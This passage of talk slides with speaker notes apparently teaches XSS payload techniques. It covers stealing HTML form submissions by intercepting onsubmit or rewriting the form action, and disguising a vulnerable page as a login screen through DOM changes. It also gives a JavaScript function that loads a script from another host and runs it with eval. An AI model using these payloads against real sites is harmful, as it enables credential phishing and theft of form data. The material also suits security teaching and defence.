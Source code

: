 
# Stealing HTML forms

## What are the easy options?
 1. Hold the onsubmit event while running an async post, and then submit
 2. Cross-domain POST by updating the action

^ Option 1 is probably the easiest. Fewer moving parts, less likely to go wrong.
  ***Example 2***

---

# Changing the DOM
It can one of the easiest things to do.
Hiding an element?

```js
document.getElementById('id').style.display = 'none';
```

Replacing a whole section of content?

```js
document.getElementById('container').innerHTML = '<h1>New Markup</h1>';
```

^ DOM manipulation is a critical skill for XSS payloads.
  It's how you change what the user sees and interacts with.
  If your vulnerability is on the wrong page, make it look like the right page.
  Show them things they expect to see, except that you control.
  For example, turning a registration page into a login page.

---

# Changing the DOM
What about fetching HTML from another host?

^ ***Example 3 - changing registration page to a login screen***

---

# Fetching Hosted Resources
```js
function fetchjs(scriptUrl, cb)
{
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.open("GET", scriptUrl);
    xmlhttp.onreadystatechange = function()
    {
        if ((xmlhttp.status == 200) && (xmlhttp.readyState == 4))
        {
            eval(xmlhttp.responseText);
            if(typeof cb === 'function') {
              cb();
            }
        }
    };
    xmlhttp.send();
}
```

---